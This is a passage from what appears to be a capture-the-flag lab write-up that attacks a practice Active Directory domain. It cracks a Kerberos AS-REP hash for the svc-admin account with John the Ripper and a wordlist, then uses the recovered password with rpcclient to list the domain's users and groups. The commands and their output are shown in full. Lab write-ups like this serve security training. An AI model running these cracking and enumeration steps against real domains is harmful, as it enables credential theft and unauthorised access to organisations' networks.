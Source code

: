 #### Copy the hash to a text file and crack it:

```
crazyeights@kali:~$​ john -wordlist=lists/rockyou.txt -rules krb_ad_hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4
HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Warning: invalid UTF-8 seen reading ~/.john/john.pot
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005 ​ ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)1g 0:00:00:05 DONE (2020-05-18 22:04) 0.1834g/s 1071Kp/s 1071Kc/s 1071KC/s
manaia05..mamitanachi
Use the "--show" option to display all of the cracked passwords reliably
Session completed
crazyeights@kali:~$
```

### Task 6: Enumerate the DC Part 3

#### Enumerate the domain with credentials:

Using rpcclient:

```
crazyeights@kali:~$​ rpcclient 10.10.182.180 -U svc-admin
Enter WORKGROUP\svc-admin's password:
rpcclient $>
rpcclient $> ​ srvinfo
   10.10.182.180 Wk Sv PDC Tim NT
   platform_id: 500
   os version: 10.0
   server type: 0x80102b
rpcclient $>
rpcclient $> ​ enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[skidy] rid:[0x44f]
user:[breakerofthings] rid:[0x450]
user:[james] rid:[0x451]
user:[optional] rid:[0x452]
user:[sherlocksec] rid:[0x453]
user:[darkstar] rid:[0x454]
user:[Ori] rid:[0x455]
user:[robin] rid:[0x456]
user:[paradox] rid:[0x457]
user:[Muirland] rid:[0x458]
user:[horshark] rid:[0x459]
user:[svc-admin] rid:[0x45a]
user:[backup] rid:[0x45e]

rpcclient $> ​ enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
```